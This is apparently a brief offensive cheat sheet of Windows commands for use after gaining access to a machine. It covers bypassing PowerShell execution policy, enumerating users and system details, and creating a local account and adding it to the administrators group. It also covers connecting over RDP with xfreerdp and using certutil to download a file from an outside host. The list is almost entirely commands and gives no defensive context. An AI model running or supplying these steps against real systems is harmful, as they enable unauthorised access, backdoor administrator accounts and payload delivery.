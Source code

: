 * #### Powershell
  Bypass ExecutionPolicy (cannot be loaded because running scripts is disabled on this system)
  
  ```
  powershell -ep bypass
  ```

* #### CMD
  ```powershell
  whoami

  systeminfo

  net user

  net user username password /add <create new username with password>

  net localgroup administrators user /add <add user to administrator group>

  net localgroup administrators <list administrators>

  wmic useraccount get name,sid

  cd $env:USERPROFILE/DESKTOP

  certutil.exe https://lolbas-project.github.io/lolbas/Binaries/Certutil/
  ```

  ```
  xfreerdp /u:username /v:ip_address

  certutil.exe -urlcache  -f http://192.168.1.1:8000/filename outputfilename
  ```  
